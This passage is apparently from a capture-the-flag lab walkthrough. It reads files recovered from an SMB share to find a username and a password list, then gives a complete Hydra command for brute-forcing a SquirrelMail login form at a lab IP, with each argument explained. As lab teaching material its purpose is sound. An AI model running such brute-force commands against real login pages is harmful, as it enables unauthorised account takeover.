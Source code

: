 We will use the `cat` command to see what is inside of each txt file.

On Terminal: `cat attention.txt`

- From this content, we can see that there is a password change and the person who wrote this message is Miles Dyson, which is also a username that we saw when we exploit the smb port.

<p align="center"> <img src="https://i.imgur.com/cbVvBvX.png" height="90%" width="90%" alt=""/>

<p align="center"> <img src="https://i.imgur.com/cFqcsWq.png" height="90%" width="90%" alt=""/>

We will now look at "log1.txt".

On Terminal: `cat log1.txt`

- log1.txt seems to be a password list.

<p align="center"> <img src="https://i.imgur.com/tks8KGg.png" height="90%" width="90%" alt=""/>

We will now look at "log2.txt" and "log3.txt".

On Terminal: `cat log2.txt` `cat log3.txt`

- Both logs seems to be empty.

<p align="center"> <img src="https://i.imgur.com/cOMlmit.png" height="90%" width="90%" alt=""/>


<h2></h2>

<h3>Using Hydra to Bruteforce with the Username and Passwords</h3>

Since we got the username to be "milesdyson" and a password list. We will try to bruteforce using `hydra`.

On Terminal: `hydra -l milesdyson -P log1.txt 10.10.120.154 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1&Login=Login:Unknown user or password incorrect" > miles.txt`

- `hydra`: The command itself, invoking the Hydra tool.

- `-l milesdyson`: Specifies the login username to be "milesdyson."

- `-P log1.txt`: Specifies the path to a file containing a list of passwords (log1.txt in this case).

- `10.10.120.154`: The IP address of the target system.

- `http-form-post`: Indicates the type of attack, in this case, it's an HTTP POST form-based attack.

- "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1&Login=Login:Unknown user or password incorrect":

  - Specifies the login form details:
    - `"/squirrelmail/src/redirect.php:`: The URL of the login page.
    - `login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1&Login=Login:`: The form data to be sent, where ^USER^ and ^PASS^ will be replaced by Hydra during the brute-force attack.
    - `Unknown user or password incorrect"`: The failure message indicating an unsuccessful login attempt.
- `> miles.txt`: Redirects the output (results of the brute-force attack) to a file named miles.txt.
